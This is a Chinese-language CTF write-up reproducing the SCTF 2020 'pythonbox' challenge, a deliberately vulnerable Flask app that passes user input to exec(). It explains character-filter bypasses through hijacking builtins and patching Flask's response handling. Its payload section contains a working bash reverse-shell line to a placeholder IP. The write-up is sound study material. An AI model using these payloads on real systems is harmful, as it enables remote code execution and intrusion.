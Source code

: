 ﻿---
title: sctf2020 pythonbox题目复现小记
categories: [CTF]
tags: [python,web]

---
比赛中觉得这道题有点意思,解题的思路也用很多(虽然都是函数劫持但很巧妙),有的构思十分恰妙,故写文以记下.
<!-- more -->

我这里因为环境有问题,本地post数据会蜜汁丢失(tcl,还没找到原因),所以把原题中的post部分改成了get但对思路来说无伤大雅.具体代码如下：

```python
from flask import Flask, request

app = Flask(__name__)


@app.route('/', methods=["GET"])#源题是methods=["POST"]
def security():
    secret =request.args["cmd"]#源题是request.form
    for i in secret:
        if not 42 <= ord(i) <= 122: return "error!"
   
    exec(secret)
    
    
    return "xXXxXXx"


if __name__ == '__main__':
    app.run(host="0.0.0.0")
```

由于出题人要求要rec，so题目的核心在于如何在：

```python
for i in secret:
        if not 42 <= ord(i) <= 122: return "error!"
```

即，没有引号、小括号、空格的情况下函数调用或继承链的构建。

在python中没有大小引号，我们就没法构件字符串。而命令执行函数调用的参数需要是字符串，继承链的构建中也需要字符串来做索引。

### 构造字符串

先说下没有引号怎么构造吧。

1.利用`flask.__dor__`构造,`flask.__dor__`会返回字符串利用python字符串特性进行切片拼接.

2.利用request.host、request.content_md5、request.content_encoding这些返回值直接就是字符串的request属性获取字符串。

3.利用i，secret这些已存在的字符串进行处理后，作为request.args/request.form的索引进行传参。

### 函数调用

有了字符串后，我们就可以编造一些简单的继承链来修改一些配置与函数了，但是依然不能调用命令执行相关的函数，因为在python如要对函数进行有参数的调用必须要小括号。所以如何调用命令执行相关的函数是一个问题。

#### 劫持ord函数

由于ord函数是在`__builtins__`里，我们可以通过继承链关系找到`__builtins__.__dict__[‘ord’]`再用一个返回值在42与122间的函数覆盖它，这样我们第二次访问时 ，无论传入什么函数都可以绕过bypass。

这里有个小技巧，在lambda构造有默认参数的匿名函数时不需要空格来区分形参，只需要在形参面前加个`*`号。例如：

```python
__builtins__.__dict__['ord'] = lambda*args:42
```

 这样，调用ord时，ord无论参数是什么都只能返回42。

完整payload：

```python
#第一次
cmd=__builtins__.__dict__[request.content_md5] = lambda*args:42
在包中添加头： content_md5:ord
#第二次
cmd=__import__('os').system(\"bash -c 'bash -i >& /dev/tcp/my_ip/23333 0>&1'\")
```



#### patch flask自己的函数

我们在审计flask代码时，会发现几个有趣的参数finalize_request、process_response、after_request_functions。他们在flask中的运行机制是

1。一旦web应用接收到reques，会调用finalize_request。

2。finalize_request首先会对请求使用make_response方法进行处理，该方法会将视图函数的返回值（response对象或者一个元组）封装成一个response对象。

3。调用 process_response 方法，使用 after_request_functions 当中的函数进行处理，返回处理过后的response。

4。如果抛出异常，raise

因此我们可以：

让`process_response=exec`,`make_response`值为我们想执行的代码

具体操作如下：

方法1：直接更改process_response

```python
http://127.0.0.1:5000/?cmd=Flask.__doc__=request.args[secret[0]];app.make_response=lambda*p:Flask.__doc__;app.process_response=exec;&F=print(‘lexsd6’)
```

![image-20200715001759238](image-20200715001759238.png)



方法2：通过after_request_functions更改process_response：

```python
http://127.0.0.1:5000/?cmd=Flask.__doc__=request.args[secret[0]];app.make_response=lambda*p:Flask.__doc__;app.after_request_funcs[None]=[exec];&F=print(‘lexsd6’)
```



![image-20200715142352986](image-20200715142352986.png)

#### patch url_parse

url_parse  是一个处理url的函数我们可以让它为eval,这样url中`/`后的数据将会当成eval的参数来执行.

具体可以看官方wp:

https://ctftime.org/writeup/22157



### 参考文献

[flask流程详解](https://pham-nuwens-document.readthedocs.io/zh/latest/flask%E5%AD%A6%E4%B9%A0/flask%E6%B5%81%E7%A8%8B%E8%AF%A6%E8%A7%A3.html)

https://imagin.vip/?p=1489#pysandbox

http://www.l-team.org/archives/379.html

https://ctftime.org/writeup/22157